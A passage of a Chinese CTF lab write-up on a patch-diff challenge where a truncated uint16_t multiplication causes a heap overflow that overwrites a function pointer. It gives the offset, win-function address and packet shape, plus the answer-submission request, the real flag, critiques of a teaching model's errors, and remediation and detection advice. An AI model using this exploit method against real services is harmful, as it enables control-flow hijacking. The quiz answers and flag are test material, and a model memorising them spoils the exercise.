  -F 'answers={"questionID": 9387, "answer": "{\"answer\": [\"B\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9389, "answer": "{\"answer\": [\"D\"], \"num\": 1}"}' \
  -F 'answers={"questionID": 9391, "answer": "{\"answer\": [\"A\",\"B\",\"C\",\"D\"], \"num\": 4}"}' \
  -F 'answers={"questionID": 9405, "answer": "{\"num\": 3, \"answer\": [\"\", \"\", \"vmc{r3yhSrmRqJOoS0Ukjq083dAq5BUZPonK}\"]}"}' \
  -F 'contestMode=0'
# HTTP 200；{"code":0,"msg":"success"}
```

`num` 取所选答案个数（单选 1、多选选 4 个填 4、填空固定 3，flag 放第 3 格）。平台回写（`logs/07-submit-answers.json`）中 5 条记录 `answerTimes` 均为 1，填空题被规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位自动写 `true`，第 3 格 flag 原样保留）。顶层 `isCorrect:false`、各条 `scoreRate:0` 属平台正常现象，不作为判分依据。

判分以 `GET /api/student/get/answerHistory?sectionID=6717&contestMode=0` 为准（`logs/08-answerHistory.json`）：

| order | questionID | 题面标题 | 题型 | 提交值 | isCorrect |
| --- | --- | --- | --- | --- | --- |
| 1 | 9385 | `C035-G4-S1` | 单选 | `{"answer":["C"],"num":1}` | **true** |
| 2 | 9387 | `C035-G4-S2` | 单选 | `{"answer":["B"],"num":1}` | **true** |
| 3 | 9389 | `C035-G4-S3` | 单选 | `{"answer":["D"],"num":1}` | **true** |
| 4 | 9391 | `C035-G4-M` | 多选 | `{"answer":["A","B","C","D"],"num":4}` | **true** |
| 5 | 9405 | `C035-G4-F` | Flag 填空 | `{"num":3,"answer":["","true","vmc{r3yhSrmRqJOoS0Ukjq083dAq5BUZPonK}"]}` | **true** |

**5/5 全部 `isCorrect=true`。** 平台作答页 5 题均显示「作答正确」，第 5 题 flag 输入框内为最终 flag（截图 07）；`answerHistory` 的 5 条记录与 `submitAnswers` 原始返回见截图 09。实例侧核对（`logs/12-instances.json`）：`podID kz0zaklhq3t0l6nikqm67e1li`、`state Running`、`ip 172.17.0.13`、`targetPorts [22,70]`、`portInfos 14760→22 / 14761→70`、`image t-11637/c035-g4-f:2026`（截图 08 是「我的虚拟机」页的 `C035-G4-F` 卡片，端口栏显示 `+2`）。




### 9. 失败尝试与踩坑清单

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | 裸连 `172.17.0.13:14761` 后发 `help` / `1` / `AAAA` | 无 banner、无任何回显，据此怀疑它不是行协议而是二进制分组协议 | `main` 用 `fread(buf,1,0x10004,stdin)` **一次性读满或读到 EOF 才继续**；裸连不 half-close 就一直阻塞 | 发完报文后 `shutdown(SHUT_WR)` 制造 EOF，立刻拿到回显（`too short` / `no input` / `packet processed`）；本机 Docker 里用 `printf \| ./challenge_v1.elf` 复核了同一机制 |
| 2 | 直接对两段反汇编做文本 diff，想"先看清 `.text` 改动" | 满屏假差异 | 两版函数布局不同（v2 把 `main` 排到 `0x401190`、`_start` 后移到 `0x401230`），地址/分支目标全变（7-3 踩过的同一个坑） | 写 `diff_norm.py`：先按**函数边界**切开，再把地址/分支目标/RIP 相对量抹掉后逐指令比对 ⇒ 收敛到 `process_packet` 一处真实语义差异 |
| 3 | 本地想直接跑 `./challenge_v1.elf` | macOS 上跑不了 | 是 ELF64 Linux 二进制，且需 `GLIBC_2.34` | 用 `docker run --platform linux/amd64 python:3.12-slim`（glibc 2.41，向下兼容 2.34）本地验证 |
| 4 | 本地偏移探针 24 / 28 / 36 / 40 | `munmap_chunk(): invalid pointer` / `Segmentation fault` | 只有偏移 32 才落在 `[r13]`（函数指针）上 | 以 32 为准；其余偏移留作失败对照证据（步骤 5、7） |
| 5 | 首版 payload 用 `w=2, h=0x8000`，在 v2 上仍输出 `packet processed`，一度以为补丁没生效 | v2 未拒绝、未溢出 | 该乘积恰为 `0x10000`，v2 的判据是 `ja 0x10000`（**严格大于**），边界值放行；同时 v2 已按完整乘积 `malloc(65536)`，装得下 40 字节 | 换成 `w=257,h=256`（积 65792 > 0x10000）才打出 `packet too large`；并把 `w=256,h=256` 作为"v1 成功、v2 安全"的同包对照 |
| 6 | 问答页首次截图判定 `present=false`，页面显示的是**另一道题（8-1 的静态链接 ELF 问题）**的会话 | 截图内容与本题无关 | 共用账号，问答平台落地页默认载入"最近一次对话"；且历史项索引在两次加载间会漂移 | 打开 `#hist-toggle` → 遍历 `#hist-list .hist-item` 按标题筛 → 点击 `.hist-open` → 用**问句 + 答案双指纹**确认 |
| 7 | 上一步修好后仍 `fpA=false`（问句命中、答案没命中） | 指纹校验失败 | 会话页把反引号渲染成 `<code>` 元素，`innerText` 里**不含反引号**，而答案指纹取自原文开头 `` 在C语言中，当你把`uint16_t w` `` | 指纹改为**避开反引号与换行**的 20 字窗口（`相乘时，如果没有显式进行类型转换，乘法操`）⇒ 命中，`present=true`（`logs/17-qa-page-fingerprint.json`） |

### 10. 教学问答：5 问 5 答，**5 个回答都有口径偏差**（截图 10、11）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 **5 个问题**，覆盖漏洞原理 / 堆布局机制 / 服务协议 / 加固修复 / 检测与应急五个维度；每题各起一段会话（`conversation_id` 依次 **5638 / 5640 / 5642 / 5645 / 5647**），相邻提问间隔 ≥12 s，5 次提问**均首次尝试成功**（`queue={position:0, waiting:0, busy:2, slots:64}`，无排队失败；回答长度 1016 / 782 / 914 / 1736 / 1149 字符）。问答原文另存 `.local/process/7-4-qa-transcript.json`，SSE 运行日志 `logs/09-qa-run.txt`。

| # | 覆盖维度 | 问题要点 | 回答要点 | 口径说明（与实测/标准不符处） |
| --- | --- | --- | --- | --- |
| Q1 | 漏洞原理 | `uint16_t` 相乘后截断成 `malloc` 大小、`memcpy` 用 64 位长度的成因链 | 讲了整数提升与"分配不足 / 拷贝过多"，点到 CWE-190 → CWE-122 | ❌ 说"提升到 `int` **或 `long`**，取决于编译器"——C 标准只提升到 `int`（32 位 `int` 可表示 `uint16_t` 全部取值）；举例 `32767*32767=562949980` **算错**（实为 1073676289），且误称"超过 32 位 `int` 范围"；**未点出真正根因是"赋回 `uint16_t` 时截断"**，把问题归到"32/64 位提升不确定" |
| Q2 | 机制细节 | `malloc(1)` 的 chunk 大小、可用字节、为何相隔 32 字节、如何改写函数指针 | 方向对（提到管理/对齐开销、堆溢出可改函数指针），给了缓解建议 | ❌ 未给出正确数值（应为 chunk `0x20`、可用 `0x18`=24 字节）；把题目里的"`malloc(1)` 后 `malloc(0x40)`"误读成"**两次 `malloc(0x40)`**"；"可用字节 = 请求 - 8"**错误**（1 字节请求实际可用 24 字节） |
| Q3 | 服务协议 | 为什么 `fread(buf,1,0x10004,stdin)` 的服务无 banner 无回显、客户端该怎么办 | 讲到"阻塞等待足够数据"，方向正确 | ❌ 把 `0x10004` 读成 **16384**（实为 **65540**）；把阻塞归因到"TCP 分片 / 服务器缓冲"，**未指出真正机制是 `fread` 会一直读到读满 `nmemb` 或遇到 EOF/错误**，也没明确给出"客户端 `shutdown(SHUT_WR)` 制造 EOF"这一关键操作 |
| Q4 | 加固与修复 | 溢出安全乘法、分配与拷贝同源、编译器/平台加固选项 | 三条原则都覆盖到，给了示例代码 | ❌ 用 C++ `std::numeric_limits` 举例却说是"C 语言"；`safe_multiply` 溢出时返回 `SIZE_MAX` 而不报错、调用方也没检查，示例本身不严谨 |
| Q5 | 检测与应急 | 编译期（静态分析/UBSan/ASan）、运行期（堆加固/malloc 检查/core dump）、应急取证 | 覆盖面完整，ASan/UBSan、Valgrind、core dump + gdb 都提到，可作排查清单 | ⚠️ 把 glibc 的堆保护说成"堆栈保护 / 堆栈可执行性"，**术语混用**；未提 `-D_FORTIFY_SOURCE`、`__builtin_mul_overflow`、`malloc_usable_size` 等更贴题的检查点 |

**口径说明**：以上偏差**均不作为解题依据**——本 writeup 的漏洞成因、chunk 布局、协议机制全部以 `objdump` 反汇编、本机 Docker 实测与靶机回显为准，教学模型的回答只用来梳理思路。换句话说，5 个回答里**没有一个能直接照抄用于本题**（Q1/Q2/Q3 的数值或机制有硬错，Q4/Q5 只能当清单用）。

问答页截图用**双指纹**核对：`conversation_id=5638`，问句指纹 `在 C 语言里，把 uint16_t w`、答案指纹 `相乘时，如果没有显式进行类型转换，乘法操`，`matchedIndex=15`、`present=true`、`bodyLen=4153`（`logs/17-qa-page-fingerprint.json`）。


### 11. 截图真实性与脱敏说明

`7-4/screenshots/` 共 **11 张 PNG，无其他文件**（渲染源 HTML 在 `.local/process/7-4-scripts/render/`，脚本与原始日志在 `.local/process/7-4-scripts/`，均不入库）。按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 | 脱敏 |
| --- | --- | --- | --- |
| `01-静态对比-导入表相同与函数边界归一化.png` | `objdump -T` 逐行相同、`NEEDED`、节表尺寸、`strings` 唯一新增、4 函数归一化比对 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） | 无个人信息 |
| `02-静态-v1漏洞点-截断乘法导致堆溢出.png` | v1 `process_packet` / `read_flag` 反汇编 + 逐条注解 | 同上 | 无 |
| `03-静态-v2补丁点-packet-too-large与完整长度分配.png` | v2 `process_packet` 反汇编 + 补丁 A/B 注解 | 同上 | 无 |
| `04-本机Docker-函数指针偏移探针.png` | Docker 环境、协议基线、24/28/32/36/40 偏移探针、v1/v2 同包对照 | 同上 | 无 |
| `05-利用成功-服务直接打印flag.png` | 44 字节报文、`shutdown(SHUT_WR)` 说明、服务返回 `vmc{...}` | 同上 | 无（flag 为题解内容） |
| `06-失败对照-五条报文.png` | 7 条边界/失败/成功对照的原始回显 + 归纳表 | 同上 | 无 |
| `07-平台作答页-五题已提交.png` | VMC `/student/course/answer/6717`：5 题「作答正确」+ 已选答案 + Flag 填框 | **真实页面截图**（无头 Chrome + playwright-core，登录态；viewport 1280×2400、`dSF=2`、`fullPage` ⇒ PNG 2560×4800） | **已涂白**昵称 |
| `08-平台实例-端口映射.png` | VMC `/student/vm`：`C035-G4-F` 实例 `s-149989` Running、`172.17.0.13`、端口映射 `+2` | 真实页面截图（同参数，PNG 2560×4800） | **已涂白**昵称 |
| `09-平台判分-answerHistory原始返回.png` | `answerHistory` 5 条 `isCorrect=true` + `submitAnswers` 原始返回 | 渲染稿（API 真实返回） | **渲染前整段删除 `currentUser`**（账号/昵称/学号/`lastIP`）；保留内部数字 `userID`（非个人信息，与 5-x/6-x/7-3 口径一致） |
| `10-AI问答-教学平台真实页面-本题会话.png` | 问答平台历史面板打开、主区域为本题 Q1 会话（双指纹确认） | **真实页面截图**（viewport 1280×950、`dSF=2`、`fullPage` ⇒ PNG 2560×2572） | **已涂白**账号胶囊 |
| `11-AI问答-本题问答总览.png` | 5 问 5 答全文 + 每问 `conversation_id` | 渲染稿（会话原文不含账号信息） | 无需涂白 |

**为什么终端/API 类是渲染稿**：题目服务是**裸 TCP、没有网页界面**，无法用无头浏览器实拍；本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`）。因此 `01`–`06`、`09`、`11` 把**真实命令与原始日志输出逐字复制**渲染成黑底白字 HTML 再截图，**每张图顶部都标注「真实命令回显的渲染稿（非终端实拍）」**（API 类标注「渲染稿：内容为平台 API 的真实返回」），未冒充终端实拍；脚本只做 `html.escape`，未手工改写字符。

**VMC 两张（`07`/`08`）确实渲染了账号昵称，已涂白**（脚本 `.local/process/7-4-scripts/mask_vmc_header.py`，坐标**逐图实测、未照抄 5-x/6-x**）：

- 截图条件：viewport `1280×2400`、`dSF=2` ⇒ PNG **2560×4800 device px**；顶栏背景色实测 **`rgb(114,177,239)`**；
- 定位两步互证：① DOM——playwright 读昵称节点 `SPAN.user-name` 的 CSS rect = `x 1218.5, y 35.30, w 59, h 23` ⇒ device `x 2437..2555, y 70.6..116.6`（**在作答页量得**）；② 像素——在 `y∈[50,145]` 内取近白像素（RGB 三通道均 > 225）做列投影、合并间隔 ≤14 px，取最右一个宽 ≥18 的列段；
- **实测最右近白簇（= 昵称）**：`07-平台作答页` → `x 2440..2506, y 69..100`；`08-平台实例` → `x 2320..2386, y 69..100` ← **同一 viewport 下两图 x 相差 120 px，照抄坐标必然漏涂 `08`**；
- 涂白 box：`07 = (2415,50)-(2535,126)`、`08 = (2295,50)-(2415,126)`；填充顶栏背景色 `rgb(114,177,239)`，写白字「账号已脱敏」；
- ink 判据：`|R-114|+|G-177|+|B-239| > 60` 记为 ink；两图涂白前 ink **均为 1263**（互证昵称确实在该矩形内），涂白后 **773**（残留即「账号已脱敏」文字本身；本次复核 `--check` 复测两图仍为 773）；
- 复验：`--apply` 后用 PIL 裁剪 `(2150,0)-(2560,175)` 放大 2 倍存 `render/verify-crop-07*.png` / `verify-crop-08*.png`，目视确认昵称已被覆盖、左侧应用图标与「+」/铃铛图标未被破坏。

**问答页（`10`）确实有账号胶囊，已涂白**（脚本 `.local/process/7-4-scripts/mask_qa_account.py`）：

- 截图条件：viewport `1280×950`、`dSF=2`、`fullPage` ⇒ PNG **2560×2572**；顶栏背景色实测 **`rgb(255,252,247)`**；
- 定位：在 `y∈[30,120]` 内取深色文字（三通道之和 < 420）做列投影、合并间隔 ≤20 px：`x 57..406` = 站点标题（不动）、`x 1822..1886`（昵称）+ `x 1912..2134`（学号括号段）= **账号胶囊**、`x 2184..2319` = 「帮助」、`x 2344..2503` = 「退出」（均不动）；DOM 交叉验证：`昵称（账号）` 只出现在 header 的 `.who > span`，页面其它位置无此文本；
- 涂白 box：**`(1800,38)-(2160,116)`**，右侧 2160 < 2184 保证不碰「帮助」按钮；填背景色 + 深绿字「账号已脱敏」；
- 判据：`sum(RGB) < 420` 记为 dark；涂白前 **2678** → 涂白后 **573**（本次复核 `--check` 复测仍为 573）；复验裁剪 `(1700,0)-(2400,160)` 放大 2 倍存 `render/verify-qa-crop.png`。

本文正文同样不记录任何凭据、cookie 或个人身份信息。

### 12. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| 靶机 `172.17.0.13:14761` | **无文件落地** | 每次利用都是"发 44 字节 → 服务进程 `_exit(0)`"，进程由服务框架重新拉起；未上传文件、未写磁盘、未起后台进程，**无持久化改动** |
| 本机 | `7-4/screenshots/`（11 张 PNG，无其它文件）；`.local/process/7-4-scripts/`（`diff_norm.py`、`mkpayload.py`、`exploit_remote.py`、`qa_ask.py`、`make_pages.py`、`mask_vmc_header.py`、`mask_qa_account.py`、`shots.mjs`、`probe_*.mjs`、`files/challenge_v{1,2}.elf`、`paper.json`、`render/` 渲染源与复验裁剪图、`logs/` 原始输出）；`.local/process/7-4-{ctf-process.md,qa-transcript.json,answers-rationale.md}` | `.local/` 均不入库 |
| 本机 Docker 容器 `c74`（`python:3.12-slim`） | **未清理**：容器内 `/t/`（两个 ELF 副本 + `mkpayload.py`）与容器内 `/flag`（内容 `DUMMY_FLAG_LOCAL_TEST{heap_trunc_overflow}`，**仅本地假 flag**，与真题 flag 无关） | 如需清理：`docker rm -f c74` |
| 实例 | envID `1211`（`C035-G4-F`，容器 `s-149989`）交付时仍在 `Running`，本次未销毁（便于 Lead 复核） | 平台保存时限约 3 小时，到期由平台回收 |

## Flag

```text
vmc{r3yhSrmRqJOoS0Ukjq083dAq5BUZPonK}
```

该 flag 由靶机服务 `172.17.0.13:14761` 在收到 44 字节利用报文后**直接打印**（走 v1 `read_flag@0x4013a2` 的 `open("/flag")` + `write(1,…)` 路径，**没有 token、没有兑换服务**），同一 payload 复现 3 次结果一致；与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 9405）判定为正确的提交值三者逐字一致。Lead 自写 payload 打同一靶机**独立复现两次**，flag 逐字相同。

## 总结与心得

### 漏洞原理

1. **根因是「同一份数据算了两遍、两遍的宽度不一致」**：v1 里 `w*h` 先以 32 位算、再 `movzx edi,di` 落回 **16 位**当作分配大小；而拷贝长度走的是 **64 位完整乘积**。C 语言本身不会"自动截断"，是**代码显式地把结果赋回窄类型**（这里是编译器按 `uint16_t` 语义生成的低 16 位取用）造成了不一致——这一点恰恰是教学问答 Q1 没说清的地方。`w=h=256` 时乘积 `0x10000` 截成 0，`malloc(1)` 与最多 65536 字节的 `memcpy` 直接构成 CWE-122。
2. **溢出位置与劫持原语是"设计给的"**：`process_packet` 在同一个函数里先 `malloc(小)`、再 `malloc(0x40)` 并把 `print_packet_processed` 的函数指针写进第二块的 `[0]`，然后 `memcpy` 到第一块、紧接着 `call [r13]`。**溢出目标与调用点之间没有间隔**：只要算出两块用户指针的固定距离（glibc x86-64 上 `malloc(1)` 的真实 chunk 是 `0x20`、可用 24 字节，所以 `r13 = r15 + 0x20`，即偏移 **32**），把 8 字节 win 地址写进去，下一行就替你调用它。
3. **非 PIE 让"写什么地址"退化成常量**：`read_flag@0x4013a2` 是编译期常量，payload 里可以直接写死，不需要泄漏、不需要 ASLR 绕过；win 函数又恰好是"无参数、无返回值、自读 `/flag` 并打印后 `_exit(0)`"，与 `call rax` 的调用约定天然吻合。**因此整条利用链只有一个变量：偏移。** 这也解释了失败对照为什么必须做——④/⑤/⑥ 分别排除"偏移错""没真的越界写""地址是垃圾"，⑦ 才立得住。
4. **"无 banner"是输入模型的直接推论，不是服务的怪癖**：`fread(buf,1,0x10004,stdin)` 的语义是"读满 65540 字节或碰到 EOF 才返回"，在面向连接的流上，客户端不发 EOF 就永远凑不满 `nmemb`。**服务不是不理你，而是还卡在 `fread` 里**——所以"无回显"这条现象本身就是一条协议线索：**它意味着服务在按长度/整体读取，而不是按行读取**。识别出这一点比盲目试 `help` / `ls` 更有价值。
5. **v2 的补丁形状是「护栏 + 同源」两处互补**：上限护栏（`>0x10000` 直接 `packet too large`）把"截断不可能发生"的取值域钉死；分配改用完整 64 位乘积，才把"分配长度与拷贝长度同源同类型"这条根本原则补上。**只补任一处都不完备**：只加护栏 ⇒ 边界值 `0x10000` 仍走截断路径（实测 v2 靠补丁 B 才安全）；只改分配 ⇒ 超大乘积退化成 `malloc` 失败/资源耗尽。这也说明"补丁对比"不能只数改动条数，要看**每处改动各自封堵了哪条路径**。
6. **两版都保留了「堆上函数指针 + 间接调用」这个结构**：v2 只是让它不再可被溢出改写。从加固角度，`call [r13]` 这种"数据即代码地址"的设计本身就该改掉（见下）。

### 做题方法

- **导入表优先，但导入表没差异时不要停在原地**：本题 `objdump -T` 逐行相同、`NEEDED` 只有 `libc.so.6`，`strings` 也只多了 `packet too large` 一个字符串——**"新增了一个提示字符串"就是补丁的入口**（它必然对应一条新增的分支）。顺着这个字符串回到反汇编，比盲扫 `.text` 快得多。7-1/7-2 靠导入表、7-3/7-4 靠函数级比对，两条互补经验说明"先看差分线索在哪一层"是补丁对比题的第一决策。
- **函数边界归一化是补丁 diff 的前提**：`main` 在 v2 被 GCC 挪到 `0x401190`、`_start` 后移，地址与分支目标全变，朴素文本 diff 全是假差异。正确做法是**按函数边界切开 + 抹掉地址/分支目标/RIP 相对量后逐指令比**；本题归一化后仍会剩 3 处"非语义差异"（尾调用优化、寄存器分配、对齐 `nop`），**必须人工逐函数读**才能得出"只有 `process_packet` 是真差异"。**不要相信 diff 工具的 verdict，要读改动本身。**
- **静态结论必须在目标环境里跑一遍**：偏移 32 不是推出来的就完事——本机 Docker 用 24/28/32/36/40 五档探针把"只有 32 命中"实测出来，远程再用 ⑦ 成功 + ④⑤⑥ 失败把它夹死。**"我算出来的偏移"与"它实际回显的结果"必须对账。**
- **用失败对照拆开因果**：① 证明长度前提、② 证明 `fread` 语义、③ 证明"乘积大≠溢出"（还要 `len-4` 够大）、④ 证明偏移敏感、⑤ 证明越界写真实发生（glibc 报 `double free or corruption (out)`）、⑥ 证明地址可控。缺任何一条，解释链都会留下空档。
- **补丁有效性用"同一 payload 打两个版本"的单变量实验**：本机 Docker 里只换目标 ELF，`w=256,h=256` 在 v1 出 flag、在 v2 出 `packet processed`；`w=257,h=256` 在 v2 出 `packet too large`。**同包对照 + 边界值对照**（`0x10000` 放行）一起做，才能说清两处补丁的分工。
- **平台提交的两个格式约束**：`answers` 字段必须外层包 `{"questionID":…,"answer":"<内层 JSON>"}`；`num` 取所选答案个数（多选 4 个填 4），填空固定 3 且 flag 放第 3 格。判分只看 `answerHistory[].isCorrect`，顶层 `isCorrect` / `scoreRate` 不是判分依据。
- **对教学模型的回答保持复核**：本题 5 问**全部有口径偏差**（`0x10004` 读成 16384、`malloc(1)` 的 chunk 数值没给出还把两次分配读错、`32767*32767` 算错、根因没点在"赋回窄类型"上、堆保护术语混用）。教学问答适合梳理思路与列排查清单，**结论必须回到反汇编、靶机回显与本地双版本实测上验证**。

### 修复建议

- **代码级（本题要害）**：① 长度计算一律用同一种宽类型，最好让 `size_t` 一路贯穿，**不要在中途把乘积落回 `uint16_t`**；② 若业务确实要求 `uint16_t` 语义，就在取乘积前显式 `w = (uint16_t)w; h = (uint16_t)h;` 并**同时**校验 `(uint32_t)w * h <= 0x10000`（v2 的做法），让"分配大小"与"拷贝长度"由**同一个变量**提供；③ 乘法本身要溢出安全：`if (h != 0 && w > SIZE_MAX / h) return -1;` 或 `__builtin_mul_overflow(w, h, &sz)`（GCC/Clang），溢出即拒绝；④ **校验要在溢出发生之前**，绝不能"先 `malloc` 再补救"。
- **消除"数据即代码"的结构性风险**：v2 两版都保留 `[r13] = func; call [r13]`——把函数指针放在**会被用户数据溢出覆盖的堆块**里，本身就不该发生。应改为：函数指针放在 `.data.rel.ro`（只读、随 `RELRO` 保护）或直接在源码里用 `switch` 分发；若必须动态分派，至少把"状态/函数指针"与"用户数据缓冲区"分开分配并加边界描述符。**本题的修复建议按优先级是：先让溢出不可能（同源 + 溢出安全乘法），再让溢出即使发生也无害（指针不可写、控制流完整性）。**
- **编译期 / 运行期加固，以及各自挡不住什么**：`-fstack-protector` 针对栈溢出，**对本题的堆溢出无效**；`-D_FORTIFY_SOURCE=2/3` 能覆盖一批 `memcpy`/`memmove` 已知目标大小的场景，**但对"运行时才 `malloc` 得到的目标 + 计算出来的长度"通常无法在编译期判定，本题挡不住**；`-fsanitize=address`（ASan）能在测试阶段直接报 `heap-buffer-overflow` 并给出写入长度，**是本题最有效的早期发现手段**（生产不宜常开）；`MALLOC_CHECK_=3` / `glibc` 的堆一致性检查能在 `free` 时抓到 size 被改坏（本题失败对照 ⑤ 的 `double free or corruption (out)` 就是这类检查），属于"提高发现概率"；`-fsanitize=cfi` / Intel CET 只能约束"间接跳转到非法目标"，**本题的 `0x4013a2` 是带 `endbr64` 的合法函数入口，CFI 挡不住这种"跳到程序里本来就存在的敏感函数"**；完整 `RELRO` 对本题无效（函数指针在堆上，不在 GOT）。
- **架构级最小权限**：`read_flag` 直接 `open("/flag")` 并把内容写回连接——只要控制流能到达它就能拿 flag。应把 flag 放在**该进程权限之外的独立服务**里，通过鉴权接口按需下发，而不是"同进程可读 + 有现成的打印函数"。**把敏感能力从易达目标上挪开，比给易达目标加检查更可靠。**
- **检测与应急排查要点**：服务侧异常形态——进程非正常终止（本题失败路径为 `Segmentation fault (core dumped)`）、**glibc 报 `double free or corruption (out)` / `munmap_chunk(): invalid pointer`**、单条连接里出现"4 字节 `w/h` 头 + 明显超长 payload"或"声明尺寸很小却发送远大于它的数据"的模式（本题即 `w=h=256` 只申请 1 字节、却发 44 字节）；编译期用静态分析 + `-Wconversion -Wsign-conversion` 抓"宽结果赋窄类型"，UBSan 抓有符号溢出，ASan 抓越界；运行期开 core dump、用 `gdb` 分析崩溃点的堆状态、比对同批二进制的版本与补丁差异（`objdump` 按函数边界归一化比对，**BinDiff/Diaphora 的函数相似度只作候选筛选、必须人工核对**，`ndiff`/`meld` 这类文本 diff 工具不能替代）；应急处置时保留 core dump、进程内存镜像与连接日志，并排查同主机同类服务的相同模式。可用的具体检查点：`__builtin_mul_overflow`、`-D_FORTIFY_SOURCE`、`malloc_usable_size()`（核对"请求大小 ≠ 实际可用大小"的假设）、`MALLOC_CHECK_`、以及预发环境的 ASan/Valgrind 复现。

原始过程记录：`.local/process/7-4-ctf-process.md`；教学问答原文：`.local/process/7-4-qa-transcript.json`；选择题判定预登记：`.local/process/7-4-answers-rationale.md`；Lead 独立复核（含自写 payload 复现与协议细节）：`.local/process/7-4-8-1-8-2-lead-verification.md`；脚本与全部证据日志：`.local/process/7-4-scripts/`（`diff_norm.py`：函数边界归一化比对；`mkpayload.py`：payload / 偏移探针；`exploit_remote.py`：裸 socket 利用与回显；`qa_ask.py`：问答 SSE 采集；`make_pages.py` + `shots.mjs`：渲染稿与真实页面截图；`mask_vmc_header.py` / `mask_qa_account.py`：两处脱敏；`files/challenge_v{1,2}.elf`；`logs/` 原始输出；`render/` 渲染源与复验裁剪图）。
